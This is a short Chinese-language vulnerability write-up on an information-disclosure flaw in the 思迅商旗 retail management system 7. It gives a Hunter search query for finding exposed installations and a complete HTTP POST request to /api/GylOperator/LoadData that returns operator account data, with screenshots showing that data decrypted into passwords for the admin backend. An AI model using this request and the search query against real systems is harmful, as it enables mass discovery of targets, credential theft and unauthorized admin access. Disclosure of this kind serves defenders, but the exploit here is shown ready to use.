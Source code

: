 # 思迅商旗商业管理系统7 GylOperator存在信息泄露漏洞

# 一、漏洞简介
思迅商旗商业管理系统是基于互联网部署的全新零售管理系统。提炼各架构优势之大成，打造全新互联网产品。思迅商旗商业管理系统GylOperator存在信息泄露漏洞，<font style="color:rgba(0, 0, 0, 0.9);">攻击者可通过该漏洞在服务器端读取账户密码，从而登录后台。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 思迅商旗商业管理系统7

# 三、资产测绘
+ hunter`app.name=="思迅商旗"`
+ 特征

![1705060048606-5d05fc49-9ceb-4db7-84e0-7304c7456bf4.png](./img/2A930e-fCUruS1PS/1705060048606-5d05fc49-9ceb-4db7-84e0-7304c7456bf4-600717.png)

# 四、漏洞复现
```java
POST /api/GylOperator/LoadData HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Length: 68
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cache-Control: no-cache
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

loadAll=false&key=&oper_role=&gridFlag=GylOperatorList&page=1&rows=1
```

![1705060098747-c6665464-15ab-4c81-820d-1451d49f124f.png](./img/2A930e-fCUruS1PS/1705060098747-c6665464-15ab-4c81-820d-1451d49f124f-449203.png)

解密

![1705060110267-c8a83e28-b7a6-405a-a6ec-9d97db539e71.png](./img/2A930e-fCUruS1PS/1705060110267-c8a83e28-b7a6-405a-a6ec-9d97db539e71-014155.png)

![1705060626680-642f8fe6-d094-4c99-af4a-978993b73ddb.png](./img/2A930e-fCUruS1PS/1705060626680-642f8fe6-d094-4c99-af4a-978993b73ddb-306254.png)



> 更新: 2024-02-29 23:55:42  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/vzyrz9h4ztl1gdca>